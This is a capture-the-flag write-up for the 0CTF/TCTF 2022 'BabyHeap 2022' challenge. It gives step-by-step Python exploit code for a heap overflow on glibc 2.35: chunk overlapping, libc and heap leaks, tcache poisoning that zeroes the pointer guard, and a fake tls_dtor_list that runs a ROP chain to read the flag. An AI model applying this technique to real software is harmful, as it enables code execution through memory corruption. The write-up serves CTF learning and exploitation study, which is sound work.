# 0CTF/TCTF 2022 - BabyHeap 2022

Original challenge link: https://ctf.0ops.sjtu.cn/task#

You can as well download challenge file in my repo: [babyheap2022.zip](babyheap2022.zip)

There will be 3 files in zip:
- Dockerfile
- babyheap
- flag (Fake flag for sure)

Download and extract the zip, then build the docker, get the libc and ld files from docker and patch with binary, then we can get started!

# 1. Find bug

In short, there is just 1 bug in function update(). This bug occurs when we input a negative size such as `-1` and the check is still passed:



Therefore, we have a bug **Heap Overflow** here. By looking at the decompiler, we know the program have seccomp setup as follows:



So we need to find a way to execute our ROPchain to obtain the flag.

# 2. Idea

Because the version of libc is 2.35, the tcache bin has a safe linking mechanism. This is a heap challenge so leaking heap address is necessary, leaking libc address is needed, too. The question now is how can we leak?

We can try to free a large chunk to put it into unsorted bin and then malloc again, the main arena address is still in that chunk. But because the program clear all the data before write by using memset() so leaking addresses by this way is impossible. The only option is to overlap chunk so we can have 2 pointer point to the same chunk and when we free 1 pointer, we can use another pointer to read data on that chunk after freed.

After we leak address of heap and libc, because `__malloc_hook`, `__free_hook` or those kind of hook are reduced in libc 2.35, the only way to attack is by overwriting GOT or some global variable of libc. Having checked all the securities of file, we can see that the binary is `Full RELRO` and none of libc function jump into GOT of libc except puts().

However, we can try to attack the exit() function because exit() will call several functions such as `__call_tls_dtors` or call function in `exit_function` before it actually exits the program:



Or



With `f` is the structure `exit_function`:



You can check source of exit [here](https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.c#L38), source of `__call_tls_dtors` [here](https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/cxa_thread_atexit_impl.c#L148). Notice that before the function is called, it has to be `PTR_DEMANGLE` first and you can check it [here](https://elixir.bootlin.com/glibc/glibc-2.35/source/sysdeps/unix/sysv/linux/x86_64/sysdep.h#L394). The micro `PTR_DEMANGLE` will rotate bit right 17 bit and xor with the guard which is random value.

For this challenge, we will try to attack the function `__call_tls_dtors` (it's quite similar to `exit_function`) and you can check source [here](https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/cxa_thread_atexit_impl.c#L148). Our goal is to create a fake `tls_dtor_list` so that we can make the program run our ROPchain to open, read and write the flag out. But because the guard is a random value so instead of leaking that value out, we will overwrite it to null so we won't have to care about that xor anymore.

Summary:
- Stage 1: Overlapping chunks
- Stage 2: Leak libc address
- Stage 3: Leak heap address
- Stage 4: `__call_tls_dtors` attack

# 3. Exploit

### Stage 1: Overlapping chunks

To overlap a chunk, we will do as following:

```
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 1                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000501 |    <-- Prevsize / size
|                Chunk 2                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 3                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000501 |    <-- Prevsize / size
|                Chunk 4                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 5                |
|                                       |
-----------------------------------------
                    ↓
         Change size of chunk 2
           to overlap chunk 3
                    ↓
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 1                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000521 |    <-- Prevsize / size
|                Chunk 2                |    <-- The size is changed
|                                       |        to overlap chunk 3
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 3                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000501 |    <-- Prevsize / size
|                Chunk 4                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 5                |
|                                       |
-----------------------------------------
                    ↓
    free(chunk 2) will not cause error
                    ↓
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 1                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000521 |    <-- Prevsize   / size
| 0x0000155555504ce0 0x0000155555504ce0 |    <-- fw pointer / bk pointer
|                Chunk 2                |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 3                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000501 |    <-- Prevsize / size
|                Chunk 4                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 5                |
|                                       |
-----------------------------------------
                    ↓
      free(chunk 4) to consolidate
              with chunk 2
                    ↓
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 1                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000a21 |    <-- Prevsize   / size
| 0x0000155555504ce0 0x0000155555504ce0 |    <-- fw pointer / bk pointer
|                Chunk 2                |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 3                |
|                                       |
-----------------------------------------
| 0x0000000000000520 0x0000000000000500 |    <-- Prevsize / size
|                Chunk 4                |    <-- Prevsize and size changed
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 5                |
|                                       |
-----------------------------------------
```

When we have an unsorted bin chunk which overlap chunk 3, we can malloc a 0x500-byte chunk again so the chunk in unsorted bin will be land on chunk 3, which means the address of main arena will be writen to content of chunk 3. But we didn't free chunk 3 so we can read that address easily. Script for this stage is:

```python
alloc(0x18, b'0'*8)     # Chunk 1, index 0
alloc(0x4f8, b'1'*8)    # Chunk 2, index 1
alloc(0x18, b'2'*8)     # Chunk 3, index 2
alloc(0x4f8, b'3'*8)    # Chunk 4, index 3
alloc(0x18, b'4'*8)     # Chunk 5, index 4

payload = flat(
    0, 0,
    0, 0x521
    )
update(0, -1, payload)
delete(1)
delete(3)
```

### Stage 2: Leak libc address

So we just view() chunk 3, index 2 to get the address:

```python
alloc(0x4f8, b'1'*8)
view(2)
p.recvuntil(b'Chunk[2]: ')
libc_leak = u64(p.recv(8))
libc.address = libc_leak - 0x219ce0
infoaddr("Libc leak: " + hex(libc_leak))
infoaddr("Libc base: " + hex(libc.address))
```

### Stage 3: Leak heap address

To leak heap address, we will create another chunk (this chunk overlap chunk 2 above) within size of tcache and free this chunk. Due to safe linking, the linking address will be put to this chunk and we can again view chunk 2 to leak heap address:

```python
alloc(0x18, b'3'*8)
delete(3)
view(2)
p.recvuntil(b'Chunk[2]: ')
heap_leak = u64(p.recv(8))
heap = heap_leak << 12
infoaddr("Heap leak: " + hex(heap_leak))
infoaddr("Heap base: " + hex(heap))
```

### Stage 4: `__call_tls_dtors` attack

For this stage, we will do 2 things. The first one is to set null for the guard we have said above. The second thing is create a fake `tls_dtor_list` and when it demangles the address, because we have freed the guard, the address just simply rotate bit right and be the same when xorring with `0`.

How can we get the address of that guard? The address of that guard is stored in segment `fs` with offset `+0x30`, or `fs:0x30` as follows:



The 2 highlighted line are corresponding to the macro of `PTR_DEMANGLE`. We need to get the address of `fs` now but how? As we known, the original canary value is stored at `fs:0x28` so if we can find the address contains canary, we just need to subtract that address with `0x28` and we get the address for `fs`:



So we know address for `fs` is `0x1555552e8740`. Just by adding `fs` by `0x30`, we get the address of guard. But `fs` address is lower than libc base address so we need to subtract libc base address with a value to get the address of `fs`. After a simple calculation, we get the offset for `fs` is:

```python
libc.sym['fs'] = -0x28c0
```

Now we just need to do a tcache attack to change the value of guard:

```python
alloc(0x18, b'3'*8)
delete(4)
delete(3)                          # Overlapping index 2
payload = flat(
    # Bypass safe linking
    ((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] + 0x30)
    )
update(2, 0x18, payload)

alloc(0x18, b'3'*8)
alloc(0x18, b'\x00'*8 + b'4'*8)    # The 8-byte '4' is note for index
```

After we have set the guard to null, we will craft our fake `tls_dtor_list` now. But what is the address for `tls_dtor_list`? Stopping at the check of while loop, in assembly is the following code:



We can see it also use the `fs` segment. Checking the offset which is move to rbx to see what its value:


So offset is `-88` or `-0x58` in hex format, but due to tcache alignment, we will make the offset to `-0x60`. Let's attack tcache to change the `tls_dtor_list` first:

```python
alloc(0x18, b'6'*8)
delete(6)
delete(3)
payload = flat(
    ((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] - 0x60)
    )
update(2, 0x18, payload)
alloc(0x18, b'flag\0\0\0\0')
alloc(0x18, b'6'*8 + p64(0xdeadbeefdeadbeef))
```

Because we don't know what address to write so I put `0xdeadbeefdeadbeef` to the `tls_dtor_list` first. Now we need to build a structure `dtor_list` in a chunk and change `0xdeadbeefdeadbeef` to address of that chunk. The structure for `dtor_list` is as follows:

```c
struct dtor_list
{
    dtor_func func;
    void *obj;
    struct link_map *map;
    struct dtor_list *next;
};
```

The function will demangle the variable `func` first and then call the result of it. Let's craft 1 `dtor_list` before we overwrite the `tls_dtor_list` of the code above:

```python
def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

payload = flat(
    # dtor_list 1
    left_rotate(0xcafebabe, 0x11), 0,
    0, heap + 0x800,
    )
alloc(0x4f8, payload)
```

The heap address for that first `dtor_list` is at heap base add `0x7e0`:



So let's replace `0xdeadbeefdeadbeef` with address of first `dtor_list`:

```python
### Create fake dtor_list

def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

payload = flat(
    # dtor_list 1
    left_rotate(0xcafebabe, 0x11), 0,
    0, heap + 0x800,
    )
alloc(0x4f8, payload)


### Overwrite tls_dtor_list

alloc(0x18, b'6'*8)
delete(6)
delete(3)
payload = flat(
    ((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] - 0x60)
    )
update(2, 0x18, payload)
alloc(0x18, b'3'*8)
alloc(0x18, b'6'*8 + p64(heap + 0x7e0))
```

When we try to run to exit(), we got segfault when the program tried to call `0xcafebabe`:



We can see that rdx contains the next pointer of next `dtor_list`. Let's see if we have any gadget that mov address from rdx to rsp or not because we want to execute our ROPchain and `heap+0x800` is under-control:



Luckily we got one. Let's grap this gadget and replace function `0xcafebabe` above with our gadget:

```python
### Create fake dtor_list

def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

mov_rsp_rdx = libc.address + 0x000000000005a170
payload = flat(
    # dtor_list 1
    left_rotate(mov_rsp_rdx, 0x11), 0,
    0, heap + 0x800,
    )
alloc(0x4f8, payload)
```

`heap + 0x800` is right after payload above so let's put our ROPchain in that heap:

```python
### Create fake dtor_list

def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

mov_rsp_rdx = libc.address + 0x000000000005a170
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbx = libc.address + 0x0000000000090529
pop_rax = libc.address + 0x0000000000045eb0
syscall = libc.address + 0x91396

payload = flat(
    # dtor_list 1
    left_rotate(mov_rsp_rdx, 0x11), 0,
    0, heap + 0x800,
    )

    # open("flag", 0, 0)
    pop_rax, 2,
    pop_rdi, heap,    # Pointer of "flag"
    pop_rsi, 0,
    pop_rdx_rbx, 0, 0,
    syscall,

    # read(3, heap+0x7c0, 0x100)
    pop_rax, 0,
    pop_rdi, 3,
    pop_rsi, heap+0x7c0,
    pop_rdx_rbx, 0x100, 0,
    syscall,

    # write(1, heap+0x7c0, 0x100)
    pop_rax, 1,
    pop_rdi, 1,
    syscall,

alloc(0x4f8, payload)
```

We need to change the heap address to make it point to a chunk containing string "flag". Let's change the data of chunk when we overwrite `tls_dtor_list`:

```python
### Overwrite tls_dtor_list

alloc(0x18, b'6'*8)
delete(6)
delete(3)
payload = flat(
	((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] - 0x60)
	)
update(2, 0x18, payload)
alloc(0x18, b'flag\0\0\0\0')
alloc(0x18, b'6'*8 + p64(heap + 0x7e0))
```

So the address of "flag" will be at `heap + 0x7c0`:

```python
### Create fake dtor_list

...

payload = flat(
    
    ...

    # open("flag", 0, 0)
    pop_rax, 2,
    pop_rdi, heap + 0x7c0,    # Pointer of "flag"
    pop_rsi, 0,
    pop_rdx_rbx, 0, 0,

    ...

```

And we just need to exit the program to execute our ROPchain:



Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `flag{REVEAL-the-PTR__h00k-an0ther-func__capture-th3-fl4g}`